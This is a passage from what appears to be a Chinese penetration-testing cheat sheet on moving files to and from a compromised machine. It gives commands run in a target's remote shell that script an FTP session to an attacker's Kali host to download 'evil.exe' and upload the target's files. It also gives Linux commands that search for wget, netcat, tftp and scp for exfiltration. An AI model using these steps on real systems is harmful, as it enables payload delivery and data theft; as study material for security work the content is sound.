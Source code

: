 - **目标机**
    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    windows下
    ```
    ftp
    username
    password
    get file
    exit 或者 bye
    ```
    ```
    ftp -s:test.txt
    ```

### Linux

**文章**
- [busybox docker 受限环境下回传文件](https://landgrey.me/blog/3/)

**查看语言/代码支持情况**
```bash
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
```

**查找可利用于传输文件的命令**
```bash
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
find / -name scp
```
